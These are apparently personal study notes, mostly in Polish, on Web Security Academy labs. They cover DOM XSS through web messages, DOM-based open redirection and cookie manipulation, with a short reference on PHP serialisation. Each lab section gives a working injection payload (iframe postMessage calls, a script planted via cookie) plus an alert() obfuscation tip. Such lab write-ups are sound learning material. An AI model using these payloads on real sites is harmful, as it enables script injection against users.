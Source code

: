 ## Lab: DOM XSS using web messages and a JavaScript URL
1. Widzimy, że stroma pobiera wartość message i sprawdza, czy zawiera http: lub https:, jeśli tak wpisuje ją do href, jeśli nie to nie:
2. Konstruujem zatem payload, który zawiera wywołanie funkcji print, a także słowo http, które poprzedzamy //, aby był to komentarz:
```
<iframe src="https://your-lab-id.web-security-academy.net/" onload="this.contentWindow.postMessage('javascript:print()//http:','*')">
```

## Lab: DOM XSS using web messages and JSON.parse
1. Jest to przykład z użyciem JSON.parse, który zmienia string w JSON, należy pamiętać, aby escapować znaki " w stringu, bo inaczej zrobią się z tego osobne stringi i nie zadziała
```
<iframe src="https://0ab200c5041cbdb3c018c71b008d0084.web-security-academy.net/" onload='this.contentWindow.postMessage("{\"type\":\"load-channel\", \"url\":\"javascript:print()\"}","*")'>
```

## Lab: DOM-based open redirection
https://0aff009b03b537c9c039ad9c00ff0051.web-security-academy.net/post?postId=7#/url=https://exploit-0a04009b032a3781c0eaade3010e0095.web-security-academy.net


## Lab: DOM-based cookie manipulation
1. W cookie zapisywana jest poprzednia odwiedzana podstrona, możemy zatem ją zmienić , a także dodać skrypt.
2. WAŻNE! - warto sprawdzać dodawanie pojedynczych i podwojnych cudzysłowiów, bo strona nawet pojedyncze tłumaczy na podwójne i potem nie działa
3. działanie skryptu
	- ładujemy stronę z iframea, a do cookie zostanie wpisany lkiink
	- następnie robimy redirect, wtedy załaduje się link do przycisku, a tym samym wykona się skrypt

### Payload:
```
<iframe  width=1000px height=1000px src="https://0a8f00a8033e9886c0653d3300fa008e.web-security-academy.net/product?productId=1&'><script>print()</script>" onload="window.location.href = 'https://0a8f00a8033e9886c0653d3300fa008e.web-security-academy.net/';">
```

`Możliwa obfuskacja alert() może być alert```


# INSECURE DESERIALISATION
## PHP
`String -> s:size:value;`
`Integer -> i:value;`
`Boolean ->b:value; (does not store "true" or "false", does store '1' or '0')`
`Null -> N;`
`Array -> a:size:{key definition;value definition;(repeated per element)}`
`Object -> O:strlen(object name):object name:object size:{s:strlen(property name):property name:property definition;(repeated per property)}`
